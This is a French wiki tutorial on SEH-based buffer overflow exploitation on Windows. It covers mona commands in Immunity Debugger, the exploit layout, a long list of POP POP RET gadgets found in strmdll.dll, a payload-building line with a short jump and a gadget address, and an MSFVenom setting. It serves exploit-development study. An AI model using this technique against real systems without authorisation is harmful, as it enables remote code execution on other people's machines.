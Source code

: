 ```yaml
---
title: SEH
permalink: /SEH/
---
```


# Structured Exception Handler (SEH)

Pour afficher le statut des enregistrements SEH avec mona (ou ALT+S sous Immunity). Cette commande affiche aussi l'offset si on y met un pattern MSF:

``` text
!mona exchain
```

Pour lister les modules sans "SafeSEH":

``` text
!mona nosafeseh
```

Basé sur la troisième partie du cours de [Corelan](https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/) sur le développement d'exploits.

La structure global d'un exploit basé sur SEH est la suivante:

``` text
[JUNK][Short JMP          ][Address to POP, POP, RET][NOPs][Shellcode]
[????][Address to next SEH][Address of SEH Handler  ][???????????????]
```

On utilise un pattern pour identifier l'offset nécessaire pour écraser **Address of SEH Handler**. Au moment du crash, immunity bloque l'execution et nous demande si on souhaite lancer l'exception (avec SHIFT+F7/F8/F9). Au moment du blocage on peut voir l'état des adresses liées à SEH en faisant **ALT+S**.

Une fois cela fait il faut écraser cette adresse avec l'adresse d'une instruction de la forme POP, POP, RET. Mona peut servir à faire cela:

``` text
!mona seh -m strmdll.dll
```

Le résultat est le suivant:

``` text
0BADF00D   [+] This mona.py action took 0:00:00
0BADF00D   [+] Command used:
0BADF00D   !mona seh -m strmdll.dll

           ---------- Mona command started on 2016-04-24 07:04:16 (v2.0, rev 566) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D       - Only querying modules strmdll.dll
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   [+] Querying 1 modules
0BADF00D       - Querying module strmdll.dll
704D0000   Modules C:\Windows\system32\TAPI32.dll
0BADF00D   [+] Setting pointer access level criteria to 'R', to increase search results
0BADF00D       New pointer access level : R
0BADF00D   [+] Preparing output file 'seh.txt'
0BADF00D       - (Re)setting logfile seh.txt
0BADF00D   [+] Writing results to seh.txt
0BADF00D       - Number of pointers of type 'pop esi # pop edi # ret 0x10' : 1
0BADF00D       - Number of pointers of type 'pop esi # pop edi # ret ' : 1
0BADF00D       - Number of pointers of type 'pop esi # pop ebp # ret 0x0c' : 13
0BADF00D       - Number of pointers of type 'pop ebx # pop ebp # ret 0x10' : 10
0BADF00D       - Number of pointers of type 'pop eax # pop esi # ret ' : 7
0BADF00D       - Number of pointers of type 'pop eax # pop ebp # ret 0x04' : 7
0BADF00D       - Number of pointers of type 'pop eax # pop ebp # ret 0x08' : 4
0BADF00D       - Number of pointers of type 'call dword ptr ss:[ebp-0c]' : 6
0BADF00D       - Number of pointers of type 'pop ebx # pop ebp # ret 0x0c' : 22
0BADF00D       - Number of pointers of type 'pop esi # pop ebp # ret 0x10' : 6
0BADF00D       - Number of pointers of type 'pop esi # pop ebx # ret 0x10' : 1
0BADF00D       - Number of pointers of type 'pop edi # pop esi # ret ' : 48
0BADF00D       - Number of pointers of type 'pop esi # pop ebp # ret 0x1C' : 1
0BADF00D       - Number of pointers of type 'pop esi # pop ebx # ret ' : 24
0BADF00D       - Number of pointers of type 'pop ebx # pop ebp # ret 0x1C' : 1
0BADF00D       - Number of pointers of type 'pop ecx # pop esi # ret ' : 2
0BADF00D       - Number of pointers of type 'pop edi # pop ebp # ret 0x08' : 3
0BADF00D       - Number of pointers of type 'pop eax # pop ebp # ret 0x0c' : 2
0BADF00D       - Number of pointers of type 'pop ebx # pop ebp # ret 0x08' : 41
0BADF00D       - Number of pointers of type 'pop ebp # pop ebx # ret 0x0c' : 3
0BADF00D       - Number of pointers of type 'pop ebx # pop ebp # ret 0x04' : 57
0BADF00D       - Number of pointers of type 'pop edi # pop ebp # ret 0x04' : 1
0BADF00D       - Number of pointers of type 'pop esi # pop ebp # ret 0x04' : 128
0BADF00D       - Number of pointers of type 'call dword ptr ss:[ebp-04]' : 1
0BADF00D       - Number of pointers of type 'pop esi # pop ebp # ret 0x08' : 49
0BADF00D       - Number of pointers of type 'call dword ptr ss:[ebp-18]' : 1
0BADF00D   [+] Results :
48035BC5     0x48035bc5 : pop esi # pop edi # ret 0x10 |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
4802C86E     0x4802c86e : pop esi # pop edi # ret  |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
4800564B     0x4800564b : pop esi # pop ebp # ret 0x0c | null {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
4800699D     0x4800699d : pop esi # pop ebp # ret 0x0c | null {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
4800DAB3     0x4800dab3 : pop esi # pop ebp # ret 0x0c | null {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
4800DBAF     0x4800dbaf : pop esi # pop ebp # ret 0x0c | null {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
48018C2F     0x48018c2f : pop esi # pop ebp # ret 0x0c |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
4801B752     0x4801b752 : pop esi # pop ebp # ret 0x0c |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
48021FFA     0x48021ffa : pop esi # pop ebp # ret 0x0c |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
48022179     0x48022179 : pop esi # pop ebp # ret 0x0c | ascii {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
48022478     0x48022478 : pop esi # pop ebp # ret 0x0c | ascii {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
4802B319     0x4802b319 : pop esi # pop ebp # ret 0x0c |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
4802D744     0x4802d744 : pop esi # pop ebp # ret 0x0c |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
4802FC91     0x4802fc91 : pop esi # pop ebp # ret 0x0c |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
4802FEB2     0x4802feb2 : pop esi # pop ebp # ret 0x0c |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
4800C91B     0x4800c91b : pop ebx # pop ebp # ret 0x10 | null {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
4800DED4     0x4800ded4 : pop ebx # pop ebp # ret 0x10 | null {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
48021B81     0x48021b81 : pop ebx # pop ebp # ret 0x10 |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
480244D2     0x480244d2 : pop ebx # pop ebp # ret 0x10 |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
480263C6     0x480263c6 : pop ebx # pop ebp # ret 0x10 |  {PAGE_EXECUTE_READ} [strmdll.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v4.1.00.3936 (C:\Windows\system32\strmdll.dll)
0BADF00D   ... Please wait while I'm processing all remaining results and writing everything to file...
0BADF00D   [+] Done. Only the first 20 pointers are shown here. For more pointers, open seh.txt...
0BADF00D       Found a total of 440 pointers
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:01.622000
```

Il faut ensuite ajouter un short jump avant l'adresse. L'exploit construit aura la forme suivante:

``` text
content = "A"*(offset-4)+"\x90\xeb\x05\x90"+"\x6e\xc8\x02\x48"+nop*32+buf+nop*1000
```

### Payloads

Lors de l'utilisation de MSFVenom pour créer un payload il est important d'ajouter le paramètre suivant:

``` text
EXITFUNC=SEH
```

[Category:Exploitation](/Category:Exploitation "wikilink") [Category:Méthodologies](/Category:Méthodologies "wikilink")
